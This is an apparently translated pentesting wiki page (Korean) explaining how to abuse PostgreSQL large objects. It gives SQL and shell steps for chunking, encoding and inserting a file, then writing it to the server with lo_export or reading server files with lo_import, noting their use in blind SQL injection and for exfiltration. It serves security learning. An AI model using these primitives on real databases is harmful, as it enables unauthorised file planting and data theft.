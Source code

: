 {{#include ../../../banners/hacktricks-training.md}}

### PostgreSQL 대용량 객체

PostgreSQL는 **대용량 객체**로 알려진 구조를 제공하며, 이는 `pg_largeobject` 테이블을 통해 접근할 수 있으며, 이미지나 PDF 문서와 같은 대형 데이터 유형을 저장하기 위해 설계되었습니다. 이 접근 방식은 **데이터를 파일 시스템으로 다시 내보내는** 기능을 제공하므로, 원본 파일의 정확한 복제본이 유지됩니다.

이 테이블 내에서 **전체 파일을 저장하기 위해**, `pg_largeobject` 테이블에 객체를 생성해야 하며(LOID로 식별됨), 그 다음에 각 2KB 크기의 데이터 청크를 이 객체에 삽입해야 합니다. 이러한 청크는 내보내기 기능이 올바르게 작동하도록 보장하기 위해 정확히 2KB 크기여야 합니다(마지막 청크는 예외일 수 있음).

**이진 데이터를** 2KB 청크로 나누기 위해 다음 명령을 실행할 수 있습니다:
```bash
split -b 2048 your_file # Creates 2KB sized files
```
각 파일을 Base64 또는 Hex로 인코딩하기 위해 아래의 명령어를 사용할 수 있습니다:
```bash
base64 -w 0 <Chunk_file> # Encodes in Base64 in one line
xxd -ps -c 99999999999 <Chunk_file> # Encodes in Hex in one line
```
**중요**: 이 프로세스를 자동화할 때, 2KB의 일반 텍스트 바이트 청크를 전송해야 합니다. Hex 인코딩된 파일은 크기가 두 배로 증가하기 때문에 청크당 4KB의 데이터가 필요하며, Base64 인코딩된 파일은 `ceil(n / 3) * 4` 공식을 따릅니다.

대용량 객체의 내용은 디버깅 목적으로 다음을 사용하여 볼 수 있습니다:
```sql
select loid, pageno, encode(data, 'escape') from pg_largeobject;
```
#### Using `lo_creat` & Base64

이진 데이터를 저장하기 위해 먼저 LOID가 생성됩니다:
```sql
SELECT lo_creat(-1);       -- Creates a new, empty large object
SELECT lo_create(173454);  -- Attempts to create a large object with a specific OID
```
정확한 제어가 필요한 상황, 예를 들어 Blind SQL Injection을 악용할 때, `lo_create`는 고정된 LOID를 지정하는 데 선호됩니다.

데이터 청크는 다음과 같이 삽입할 수 있습니다:
```sql
INSERT INTO pg_largeobject (loid, pageno, data) VALUES (173454, 0, decode('<B64 chunk1>', 'base64'));
INSERT INTO pg_largeobject (loid, pageno, data) VALUES (173454, 1, decode('<B64 chunk2>', 'base64'));

```
사용 후 대용량 객체를 내보내고 잠재적으로 삭제하려면:
```sql
SELECT lo_export(173454, '/tmp/your_file');
SELECT lo_unlink(173454);  -- Deletes the specified large object
```
#### `lo_import` 및 Hex 사용

`lo_import` 함수는 대형 객체에 대한 LOID를 생성하고 지정하는 데 사용할 수 있습니다:
```sql
select lo_import('/path/to/file');
select lo_import('/path/to/file', 173454);
```
객체 생성 후, 각 페이지에 데이터가 삽입되며, 각 청크는 2KB를 초과하지 않도록 보장됩니다:
```sql
update pg_largeobject set data=decode('<HEX>', 'hex') where loid=173454 and pageno=0;
update pg_largeobject set data=decode('<HEX>', 'hex') where loid=173454 and pageno=1;
```
프로세스를 완료하기 위해 데이터가 내보내지고 대용량 객체가 삭제됩니다:
```sql
select lo_export(173454, '/path/to/your_file');
select lo_unlink(173454);  -- Deletes the specified large object
```
### 제한 사항

**대형 객체는 ACL(Access Control Lists)을 가질 수 있으며**, 이는 사용자에 의해 생성된 객체에 대한 접근을 제한할 수 있습니다. 그러나 허용적인 ACL을 가진 오래된 객체는 여전히 콘텐츠 유출을 위해 접근할 수 있을 수 있습니다.

{{#include ../../../banners/hacktricks-training.md}}
